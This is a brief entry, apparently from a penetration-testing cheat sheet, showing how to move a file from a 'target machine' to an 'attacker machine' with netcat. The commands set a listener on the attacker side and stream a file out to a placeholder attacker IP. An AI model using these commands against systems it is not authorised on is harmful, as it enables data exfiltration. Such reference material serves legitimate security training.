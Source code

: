 ### Transfer files with Netcat

#### 1) Attacker Machine: 

    nc -lvnp PORT > FILE

#### 2) Target Machine:  

    nc OUR_IP < FILE
